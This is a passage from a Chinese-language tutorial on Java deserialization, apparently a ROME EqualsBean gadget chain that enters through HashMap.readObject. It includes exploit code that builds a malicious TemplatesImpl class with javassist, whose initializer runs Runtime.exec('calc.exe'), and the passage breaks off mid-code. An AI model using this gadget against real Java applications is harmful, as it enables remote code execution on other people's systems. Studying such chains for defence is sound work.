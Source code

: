 [![](assets/1701071934-944e5df3b5e2559e765327389da42b50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223118-215ac4be-8ad6-1.png)  
this.\_obj由EqualsBean的构造函数传入，是我们可控的  
[![](assets/1701071934-3308a71a5216269334aad7292741c844.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223124-24d2a6ac-8ad6-1.png)  
因为在HashMap的readobject方法中，会调用hash(key)，进而调用key.hashCode()，所以我们可以利用HashMap作为入口构造反序列化链子

## demo

util.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class util {
    public static Object getTeml() throws Exception{
        // 动态构造恶意TemplatesImpl对象
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("asdasdasasd");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "Evil" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        // 获得其变量
        Field name = templates.getClass().getDeclaredField("_name");
        Field clazz = templates.getClass().getDeclaredField("_class");
        Field factory = templates.getClass().getDeclaredField("_tfactory");
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        // 赋予修改权限
        name.setAccessible(true);
        clazz.setAccessible(true);
```